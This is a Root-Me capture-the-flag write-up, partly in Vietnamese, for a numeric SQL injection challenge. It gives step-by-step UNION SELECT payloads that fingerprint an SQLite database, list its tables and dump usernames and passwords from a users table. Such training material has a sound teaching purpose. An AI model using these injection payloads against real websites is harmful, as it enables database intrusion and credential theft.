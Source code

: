 # SQL injection - Numeric

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FTienNHM%2Froot-me-ctf%2Ftree%2Fmaster%2FWeb-server%2FSQL%2520Injection%2FSQL%2520injection%2520-%2520Numeric&count_bg=%2379C83D&title_bg=%232D8FFF&icon=markdown.svg&icon_color=%23092753&title=Visitors&edge_flat=false)](https://hits.seeyoufarm.com)

\*\*\* Link: http://challenge01.root-me.org/web-serveur/ch18/

## Request

Retrieve the administrator password.

## Solution

Ta sẽ tấn công thông qua GET request

### Step 1: Xem loại database mà trang web đang dùng

- `http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 order by 1,2,3,4,5,6`

- `http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 union select 1,sqlite_version(),3`

### Step 2: Tìm tên table:

- `http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 union select 1,tbl_name,3 from sqlite_master`

Tại đây chúng ta thấy table tên là _users_

### Step 3: Get user name and password from users table

- `https://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 union select 1,username,password from users`
